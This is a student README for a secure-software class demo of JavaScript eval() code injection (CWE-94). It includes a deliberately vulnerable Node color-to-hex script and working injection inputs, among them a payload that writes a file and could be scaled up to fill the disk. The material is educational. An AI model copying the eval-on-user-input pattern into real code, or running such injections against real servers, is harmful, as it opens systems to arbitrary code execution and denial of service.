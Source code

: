 # JavaScript `eval()` Code Injection Example  

## Description  
This exploits a Node script which is vulnerable to code injection ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)) done for my Engineering Secure Software class as a demo.  I did a quick writeup for the vulnerability [here](code-injection-writeup.pdf)

## Instructions
I have included a script which will take a sting of a color in lowercase and output a hex value that matches that color, for example:
```
Enter a color in lowercase to get its hex value (e.x. blue):  
purple
#800080
```
The bulk of the script's logic can be found here:
``` javascript
var colorHexes = {
    red: '#FF0000',
    yellow: '#FFFF00',
    blue: '#0000FF',
    black: '#000000',
    white: '#FFFFFF',
    green: '#008000',
    purple: '#800080',
    orange: '#FFA500'
};

r.question('Enter a color in lowercase to get its hex value (e.x. blue): ', function (statement) {
    console.log(eval('colorHexes.' + statement));
    process.stdin.pause();
});
```
This takes the user input and places it right into an `eval()` call.  `eval()` will take the string (including the user input) and execute it as JavaScript code.  This statement will get the property of the `colorHexes` object that matches the input to easily map inputted colors to outputted hex values.  The problem with this, however, is that the user can end the line being evaluated using a `;` and execute arbitrary JavaScript code.

For example: you can get the console to output a "Hello World!" like so:
```
Enter a color in lowercase to get its hex value (e.x. blue):
>yellow;console.log('Hello World!');
Hello World!
undefined
```
Or you can take this script:
``` javascript
var fs=require("fs"),
stream=fs.createWriteStream("bigFile.txt",{flags:"w"});
const megabyte="1000000",
outputStr="thisisabigfile";
for(var i=0;i<megabyte/outputStr.length;i++) {
	stream.write("thisisabigfile");
}
```
Which will create a 1MB file called "bigFile.txt", and exploiting the script into executing it like so:
```
Enter a color in lowercase to get its hex value (e.x. blue):
>purple; var fs=require("fs"),stream=fs.createWriteStream("bigFile.txt",{flags:"w"});const megabyte="1000000",outputStr="thisisabigfile";for(var i=0;i<megabyte/outputStr.length;i++)stream.write("thisisabigfile");
false
```
If you were to modify this script slightly, you could create a much larger file (1GB, 1TB, etc.) which could lead to the machine the server is being hosted on to have poor performance due, or even crash altogether, causing a denial of service.  
Another exploit could use the [Node OS module](https://nodejs.org/api/os.html) to expose information of the machine that the Node server is running on.  When arbitrary code can be executed on a server, any number of things can happen to compromise the confidentiality or integrity of the data on the server - or to harm the availability of that server.

## Makefile
I've included a Makefile with two targets:  
* `default` will give the intended input into the program once, then exploit the program to call a "secret function"
* `bigfile` will exploit the script create a 1MB file (like explained above) called `bigFile.txt`

#### Note
This Makefile **does not** work with Node version 0.6.12 (the version currently on the SE lab machines), I have tested it and had it work on Node version 4.6.1.
